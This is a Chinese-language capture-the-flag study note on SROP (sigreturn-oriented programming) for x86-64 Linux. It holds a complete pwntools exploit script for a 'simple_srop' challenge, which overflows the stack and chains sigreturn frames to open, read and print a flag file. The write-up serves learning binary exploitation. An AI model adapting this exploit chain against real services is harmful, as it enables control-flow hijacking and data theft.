 # SROP

参考：[SROP详解](https://xz.aliyun.com/t/12790)

srop是我研究了有个两三天的东西，因为最近很忙，所以一直没有进行全身心的投入。

但是研究下来发现，这个东西的主要重点其实就是在对`sigreturn` 这一个系统调用的使用上，它虽然原理很复杂，但是实际上也就是对syscall的使用。

具体使用上，pwntools集成了对于Srop的调用

```python
frame = SigreturnFrame()
frame.rdi = 59        # exec的系统调用 这里是由于汇编代码之前进行了mov rdi,rax的调用所以才这么写
frame.rsi = 
frame.rdx = 
frame.rcx = 
frame.rsp = 
frame.rip = 
```

```bash
cat /usr/include/asm/unistd_64.h
```

# **simple_srop**

![Untitled](srop1.png)

![Untitled](srop2.png)

其实SROP的功能就是一长串ROP链的功能，只不过它在没有ROP的时候也可以进行使用，主要是依靠syscall

这道题是利用了SROP，在没有输出函数，没有ROP的时候，让它成为主角，特别是当SROP中的rsp被设置为下一个SROP的地址的时候，这就达成了**SROP链**


在可以使用SROP链的时候，他是一个非常方便的trick

先给出exp

```bash
from pwn import *
from LibcSearcher import *
context(arch='amd64', os='linux', log_level='DEBUG')

# io = process("./vuln")
io = remote("127.0.0.1",40955)

syscall_addr = 0x000000000040129d
base_addr = 0x404200
srop_addr = 0x401296
elf = ELF('./vuln')

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_read = SigreturnFrame()
frame_read.rax = 0
frame_read.rdi = 0
frame_read.rsi = base_addr # 先找一个可以写的地址进行书写
frame_read.rdx = 0x500 
frame_read.rip = syscall_addr
frame_read.rsp = base_addr  # 把栈的地址直接放在bss段，方便我们进行修改
# 注意在我们frame_read.rip的逻辑结束后，rsp是直接指向下一个srop_addr的，可以把这个看成它的返回地址

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_write = SigreturnFrame()
frame_write.rax = 1
frame_write.rdi = 1
frame_write.rsi = base_addr+ 0x500
frame_write.rdx = 0x100  
frame_write.rip = syscall_addr
frame_write.rsp = base_addr + 0xF0 + 0x8 * 4  #这里的地址是随便写的

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_open = SigreturnFrame()
frame_open.rax = 2
frame_open.rdi = base_addr+0x400
frame_open.rsi = 0 #泄露libc地址
frame_open.rdx = 0x0  
frame_open.rip = syscall_addr
#一个SigreturnFrame()大小0xF8 控制栈顶，0x8是srop_addr
frame_open.rsp = base_addr + 0xf8+ 0x8

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_read2 = SigreturnFrame()
frame_read2.rax = 0
frame_read2.rdi = 3
frame_read2.rsi = base_addr+ 0x500 
frame_read2.rdx = 0x100
frame_read2.rip = syscall_addr
frame_read2.rsp = base_addr+ 0xf8+ 0x8 + 0xf8+ 0x8  

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_ex = SigreturnFrame()
frame_ex.rax = 322
frame_ex.rdi = 0
frame_ex.rsi = base_addr+ 0x400 
frame_ex.rdx = 0x0
frame_ex.rip = syscall_addr
frame_ex.rsp = base_addr+ 0xf8+ 0x8 + 0xf8+ 0x8  #一个SigreturnFrame()大小0xF0 控制栈顶

payload = cyclic(0x28) + p64(srop_addr) + bytes(frame_read)
# in stack 
payload2 =  p64(srop_addr) + bytes(frame_open)
payload2 += p64(srop_addr) + bytes(frame_read2)
payload2 += p64(srop_addr) + bytes(frame_write)
payload2 = payload2.ljust(0x400,b'\x00')
payload2 += b'./flag\x00'
payload2 = payload2.ljust(0x500,b'\x00')

io.send(payload)

pause()
io.send(payload2)
io.interactive()

```

可以看出虽然弄出来的段很多，但是从逻辑上来看SROP能达成的效果的利用相当的简便（在你弄懂了的情况下）